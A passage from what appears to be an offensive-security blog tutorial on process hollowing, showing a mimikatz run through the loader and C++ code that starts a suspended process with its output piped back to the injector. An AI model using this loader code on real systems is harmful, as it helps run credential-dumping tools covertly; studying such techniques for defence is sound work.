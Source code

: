 ![Execution of mimikatz](assets/img/posts/20240124/PHMimi.png)

Now we have a fully functionnal code that allows us to execute any PE through process hollowing technic. But, we would like now to retrieve the output directly in our program.

# Final Touch: Retrieve output of our injected process

Windows created `pipes` which is a mechanism used to create interprocess communication. Therefore, we can redirect `stdOut` and `stdErr` to the created anonymous pipe and then read it.  
First we will modify our `launchSuspendedProcess`.

{% highlight C++ %}
BOOL launchSusprendedProcess(LPSTR processName, LPPROCESS_INFORMATION& pi, PCHAR args, HANDLE& hStdOutPipeRead)
{
    HANDLE hStdOutPipeWrite = NULL;
    SECURITY_ATTRIBUTES sa = { sizeof(SECURITY_ATTRIBUTES), NULL, TRUE };
    STARTUPINFOA si = { 0 };

    //Creating Pipe for output of exe
    if (!CreatePipe(&hStdOutPipeRead, &hStdOutPipeWrite, &sa, 0))
    {
        _err("[CMD] Failed Output pipe");
        return FALSE;
    }

    // Redirection STDOUT/STDERR into pipe
    si.cb = sizeof(STARTUPINFOA);
    si.dwFlags = STARTF_USESTDHANDLES;
    si.hStdError = hStdOutPipeWrite;
    si.hStdOutput = hStdOutPipeWrite;
    PCHAR cmdLine = strConcat(processName, args);
    if (!CreateProcessA(processName, cmdLine, NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, &si, pi))
    {
        _err("[-] ERROR: Cannot create process %s", processName);
        return FALSE;
    }
    _dbg("[+] Launching process %s with PID: %d\r\n", processName, pi->dwProcessId);
    return TRUE;
}
{% endhighlight %}
Note that we have created a function used to create a cmdLine by concatenating the process name and the arguments.
